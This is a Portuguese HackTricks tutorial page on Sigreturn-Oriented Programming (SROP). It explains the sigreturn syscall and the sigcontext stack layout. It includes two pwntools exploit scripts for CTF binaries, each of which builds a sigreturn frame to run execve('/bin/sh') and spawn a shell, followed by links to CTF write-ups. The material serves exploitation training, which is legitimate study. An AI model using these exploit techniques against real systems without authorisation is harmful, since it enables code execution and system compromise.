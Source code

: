 # SROP - Programação Orientada a Sigreturn

<details>

<summary><strong>Aprenda hacking na AWS do zero ao avançado com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Informações Básicas

**`Sigreturn`** é uma **syscall** especial usada principalmente para limpar após a conclusão da execução de um manipulador de sinal. Sinais são interrupções enviadas a um programa pelo sistema operacional, frequentemente para indicar que alguma situação excepcional ocorreu. Quando um programa recebe um sinal, ele pausa temporariamente seu trabalho atual para lidar com o sinal com um **manipulador de sinal**, uma função especial projetada para lidar com sinais.

Após o manipulador de sinal terminar, o programa precisa **retomar seu estado anterior** como se nada tivesse acontecido. É aqui que o **`sigreturn`** entra em ação. Ele ajuda o programa a **retornar do manipulador de sinal** e restaura o estado do programa limpando o quadro da pilha (a seção da memória que armazena chamadas de função e variáveis locais) que foi usada pelo manipulador de sinal.

A parte interessante é como o **`sigreturn`** restaura o estado do programa: ele faz isso armazenando **todos os valores dos registradores da CPU na pilha.** Quando o sinal não está mais bloqueado, **`sigreturn` retira esses valores da pilha**, efetivamente redefinindo os registradores da CPU para seu estado antes de o sinal ser tratado. Isso inclui o registrador do ponteiro da pilha (RSP), que aponta para o topo atual da pilha.

{% hint style="danger" %}
Chamar a syscall **`sigreturn`** de uma cadeia ROP e **adicionar os valores do registro** que gostaríamos que ele carregasse na **pilha** é possível **controlar** todos os valores dos registradores e, portanto, **chamar** por exemplo a syscall `execve` com `/bin/sh`.
{% endhint %}

Observe como isso seria um **tipo de Ret2syscall** que facilita muito o controle de parâmetros para chamar outros Ret2syscalls:

{% content-ref url="../rop-syscall-execv/" %}
[rop-syscall-execv](../rop-syscall-execv/)
{% endcontent-ref %}

Se você estiver curioso, esta é a **estrutura sigcontext** armazenada na pilha para posteriormente recuperar os valores (diagrama de [**aqui**](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)):
```
+--------------------+--------------------+
| rt_sigeturn()      | uc_flags           |
+--------------------+--------------------+
| &uc                | uc_stack.ss_sp     |
+--------------------+--------------------+
| uc_stack.ss_flags  | uc.stack.ss_size   |
+--------------------+--------------------+
| r8                 | r9                 |
+--------------------+--------------------+
| r10                | r11                |
+--------------------+--------------------+
| r12                | r13                |
+--------------------+--------------------+
| r14                | r15                |
+--------------------+--------------------+
| rdi                | rsi                |
+--------------------+--------------------+
| rbp                | rbx                |
+--------------------+--------------------+
| rdx                | rax                |
+--------------------+--------------------+
| rcx                | rsp                |
+--------------------+--------------------+
| rip                | eflags             |
+--------------------+--------------------+
| cs / gs / fs       | err                |
+--------------------+--------------------+
| trapno             | oldmask (unused)   |
+--------------------+--------------------+
| cr2 (segfault addr)| &fpstate           |
+--------------------+--------------------+
| __reserved         | sigmask            |
+--------------------+--------------------+
```
Para uma melhor explicação, confira também:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## Exemplo

Você pode [**encontrar um exemplo aqui**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop) onde a chamada para signeturn é construída via ROP (colocando em rxa o valor `0xf`), embora este seja o exploit final a partir daí:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)         # 0xf is the number of the syscall sigreturn
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
Verifique também o [**exploit a partir daqui**](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html) onde o binário já estava chamando `sigreturn` e, portanto, não é necessário construir isso com um **ROP**:
```python
from pwn import *

# Establish the target
target = process("./small_boi")
#gdb.attach(target, gdbscript = 'b *0x40017c')
#target = remote("pwn.chal.csaw.io", 1002)

# Establish the target architecture
context.arch = "amd64"

# Establish the address of the sigreturn function
sigreturn = p64(0x40017c)

# Start making our sigreturn frame
frame = SigreturnFrame()

frame.rip = 0x400185 # Syscall instruction
frame.rax = 59       # execve syscall
frame.rdi = 0x4001ca # Address of "/bin/sh"
frame.rsi = 0x0      # NULL
frame.rdx = 0x0      # NULL

payload = "0"*0x28 # Offset to return address
payload += sigreturn # Function with sigreturn
payload += str(frame)[8:] # Our sigreturn frame, adjusted for the 8 byte return shift of the stack

target.sendline(payload) # Send the target payload

# Drop to an interactive shell
target.interactive()
```
## Outros Exemplos e Referências

* [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)
* [https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)
* Binário em assembly que permite **escrever no stack** e em seguida chama a syscall **`sigreturn`**. É possível escrever no stack um [**ret2syscall**](../rop-syscall-execv/) via uma estrutura **sigreturn** e ler a flag que está dentro da memória do binário.
* [https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html)
* Binário em assembly que permite **escrever no stack** e em seguida chama a syscall **`sigreturn`**. É possível escrever no stack um [**ret2syscall**](../rop-syscall-execv/) via uma estrutura **sigreturn** (o binário contém a string `/bin/sh`).
* [https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html](https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html)
* 64 bits, sem relro, sem canary, nx, sem pie. Estouro de buffer simples abusando da função `gets` com falta de gadgets que realiza um [**ret2syscall**](../rop-syscall-execv/). A cadeia ROP escreve `/bin/sh` na `.bss` chamando gets novamente, abusa da função **`alarm`** para definir eax como `0xf` para chamar um **SROP** e executar um shell.
* [https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html](https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html)
* Programa em assembly de 64 bits, sem relro, sem canary, nx, sem pie. O fluxo permite escrever no stack, controlar vários registradores, chamar uma syscall e então chamar `exit`. A syscall selecionada é um `sigreturn` que irá definir registros e mover `eip` para chamar uma instrução de syscall anterior e executar `memprotect` para definir o espaço binário como `rwx` e definir o ESP no espaço binário. Seguindo o fluxo, o programa chamará read no ESP novamente, mas neste caso o ESP estará apontando para a próxima instrução, então passar um shellcode escreverá como a próxima instrução e o executará.
* [https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/sigreturn-oriented-programming-srop#disable-stack-protection](https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/sigreturn-oriented-programming-srop#disable-stack-protection)
* SROP é usado para conceder privilégios de execução (memprotect) ao local onde um shellcode foi colocado.
